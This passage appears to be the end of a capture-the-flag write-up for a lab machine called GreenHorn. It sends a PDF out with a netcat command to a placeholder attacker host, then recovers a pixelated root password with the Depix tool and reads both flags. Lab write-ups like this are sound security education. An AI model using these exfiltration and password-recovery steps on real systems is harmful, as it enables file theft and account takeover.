 ```bash

nc ATTACKER_IP PORT < /path/to/document.pdf  
```
This method allowed me to copy the file to my local machine. Upon opening the PDF, I observed that the root user shared their password with junior, but it was pixelated.

<img width="584" alt="Screenshot 2024-12-09 at 22 23 53" src="https://github.com/user-attachments/assets/3ff9688d-8d6c-436e-afab-0ec38f1fa7bc">

To recover the password, I used Depix.

Clone the Depix repository:

```bash
git clone https://github.com/spipm/Depix.git  
cd Depix  
```
Save the pixelated image from the PDF to a file and run the following command to reconstruct the text:

```bash

python3 depix.py -p /path/to/image.png -s ./images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o /path/to/output.png  

```
<img width="662" alt="Screenshot 2024-12-09 at 22 24 55" src="https://github.com/user-attachments/assets/53845bbd-cf27-426a-9158-ccb1120596d2">

The output image revealed the root user’s password.

<img width="651" alt="Screenshot 2024-12-09 at 22 25 15" src="https://github.com/user-attachments/assets/129a7a6e-5a53-459a-b8a2-38ca52ec1910">


---

## User Flag

The user flag was located in:
`C:/Users/daniel/Desktop/user.txt`

---

## Root Flag

Using the root credentials, I switched to the root user and retrieved the root flag:

<img width="629" alt="Screenshot 2024-12-09 at 22 27 27" src="https://github.com/user-attachments/assets/c8c1e716-16f1-46e8-9cdd-28254efe1632">



```bash

cat /root/root.txt
```
---

## Conclusion

The **GreenHorn** machine demonstrated vulnerabilities in poorly secured CMS configurations, file uploads, and shared credentials. It reinforced the importance of securing sensitive information and leveraging tools like Depix for creative solutions.
